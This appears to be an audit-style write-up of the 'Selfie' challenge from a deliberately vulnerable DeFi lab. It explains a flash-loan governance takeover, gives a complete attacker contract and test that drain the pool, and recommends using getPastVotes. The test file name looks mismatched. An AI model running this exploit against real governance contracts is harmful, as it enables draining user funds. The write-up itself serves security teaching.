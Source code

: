 ## High

### [H-1] Improper Snapshot Utilization in Voting Logic Allows Flash Loan Exploitation

**Description:** The `queueAction` function in the `SimpleGovernance` contract relies on the `getVotes` function to check if a user has sufficient voting power. However, `getVotes` uses the latest delegation checkpoint, which is susceptible to flash loan manipulation. This allows attackers to temporarily inflate their voting power by borrowing tokens, delegating votes to themselves, and queuing unauthorized governance actions.

Snapshot-based mechanisms, like getPastVotes, prevent this issue by referencing voting power at a specific block, ensuring that voting decisions reflect genuine token holdings over time rather than temporary manipulations.

```javascript
function queueAction(address target, uint128 value, bytes calldata data) external returns (uint256 actionId) {
    if (!_hasEnoughVotes(msg.sender)) {
        revert NotEnoughVotes(msg.sender); // Ensure sufficient voting power
    }

    // Logic for queuing the action...

    return actionId;
}
```

```javascript
function _hasEnoughVotes(address who) private view returns (bool) {
    uint256 balance = _votingToken.getVotes(who);
    uint256 halfTotalSupply = _votingToken.totalSupply() / 2;
    return balance > halfTotalSupply;
}
```

```javascript
function getVotes(address account) public view virtual returns (uint256) {
    return _delegateCheckpoints[account].latest();
}
```


**Impact:** By default, token balance does not account for voting power. This makes transfers cheaper. The downside is that it requires users to delegate to themselves in order to activate checkpoints and have their voting power tracked. So a user can take flashloan, activate a checkpoint by delegating to themselves, then call the `queueAction` successfully to withdraw funds from `SelfiePool::emergencyExit`

The exploit undermines the protocol’s governance integrity by allowing attackers to bypass proper voting procedures. This can lead to unauthorized execution of critical actions, such as draining funds or modifying core protocol parameters, posing a severe risk to stakeholders.

**Proof of Concept:** 

1. Create an attacker contract that inherits `IERC3156FlashBorrower`
2. Call pool flashloan function from the attacker contract to borrow tokens
3. The previous line calls `onFlashLoan` and delegates votes using the tokens borrowed to attacker contract
4. It calls `queueAction` to queue `SelfiePool::emergencyExit` as an action to be performed on the `SelfiePool`
5. The action delay time passes and `executeAction` is called which sends all the tokens to the attacker contract.
6. `attacker::withdraw` sends all the tokens to the recovery address

**Proof of Code:**

<details>
<summary>Code</summary>

Place the following into `PuppyRaffleTest.t.sol`

```javascript
function test_selfie() public checkSolvedByPlayer {
    Attacker attacker = new Attacker(governance, pool, token); //create attacker contract
    attacker.attack(); //call pool flashloan function
    vm.warp(block.timestamp + 2 days); //warp time by 2 days
    vm.roll(block.number + 3); //roll block by 3
    attacker.executeAction(1); //execute action
    attacker.withdraw(recovery); //send tokens to recovery address
}
```

And use this contract

```javascript
//SPDX-License-Identifier: MIT

pragma solidity =0.8.25;

import {IERC3156FlashBorrower} from "@openzeppelin/contracts/interfaces/IERC3156FlashBorrower.sol";
import {DamnValuableVotes} from "./DamnValuableVotes.sol";
import {SimpleGovernance} from "./SimpleGovernance.sol";
import {SelfiePool} from "./SelfiePool.sol";

contract Attacker is IERC3156FlashBorrower {
    SimpleGovernance public governance;
    SelfiePool public selfiePool;
    DamnValuableVotes private _votingToken;

    bytes32 private constant CALLBACK_SUCCESS = keccak256("ERC3156FlashBorrower.onFlashLoan");
    bytes private CALLDATA = abi.encodeWithSignature("emergencyExit(address)",address(this));

    constructor(SimpleGovernance _governance, SelfiePool _selfiePool,DamnValuableVotes _token) {
        governance = _governance;
        selfiePool = _selfiePool;
        _votingToken = _token;
    }

    function attack() public {
        selfiePool.flashLoan(this, address(_votingToken), selfiePool.maxFlashLoan(address(_votingToken)), "");
    }

    function onFlashLoan(address, address, uint256, uint256, bytes calldata) external returns (bytes32) {
        _votingToken.delegate(address(this));
        governance.queueAction(address(selfiePool),0,CALLDATA);
        _votingToken.approve(address(selfiePool),_votingToken.balanceOf(address(this)));
        return CALLBACK_SUCCESS;
    }

    function executeAction(uint256 actionId) external {
        governance.executeAction(actionId);
    }

    function withdraw(address _recovery) public {
        _votingToken.transfer(_recovery, _votingToken.balanceOf(address(this)));
    }
}
```

</details>

**Recommended Mitigation:** Replace `getVotes` with `getPastVotes` in the `_hasEnoughVotes` function. The `getPastVotes` function ensures that voting power is evaluated based on genuine holdings at the snapshot block, preventing flash loan exploitation.